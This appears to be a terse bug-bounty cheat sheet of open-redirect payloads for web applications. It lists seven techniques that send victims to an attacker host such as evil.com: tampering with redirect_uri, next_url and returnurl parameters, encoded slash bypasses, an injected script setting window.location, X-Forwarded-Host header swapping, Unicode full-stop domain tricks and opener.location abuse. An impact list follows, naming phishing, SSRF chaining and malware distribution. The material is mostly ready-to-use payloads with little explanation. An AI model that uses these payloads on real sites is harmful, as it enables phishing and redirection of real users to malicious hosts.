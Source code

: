 # open redirect


1 - payload: {evil.com} 


===>>> example: site.com/.../redirect_uri=evil.com/...

===>>> example: site.com/.../next_url=evil.com/...

===>>> example: site.com/.../current_url=evil.com/...

===>>> example: ===>>> example: site.com/.../returnurl=http://evil.com

2 - payload: {///%5Cevil.com/} 


===>>> example: site.com///%5Cevil.com/ 

3 - payload:  </script>window.location"http://evil.com"</script>


===>>> example: search box : injection

4 - payload: {bing.com}


===>>> example: ===>>> url ===>>> X-forwarded-host: bing.com

5 - payload: {%E3%80%82}


===>>> example: https://20.44.36.49//google%E3%80%82com , https://20.44.36.49//bing%E3%80%82com , https://20.44.36.49//yahoo%E3%80%82com

6 - payload: { opener.location="https://evil.com"}

===>>> example: email ===>>> inspect ===>>> console: opener.location="https://evil.com"

7 - payload: {forget password}

===>>> example: https://20.44.36.49/.../google.com


==================================================================


## impact:
- an attacker can do phishing with legitimate users
-  they can also chain this with SSRF
-  reputation loss, money loss
-  malware distribution
  
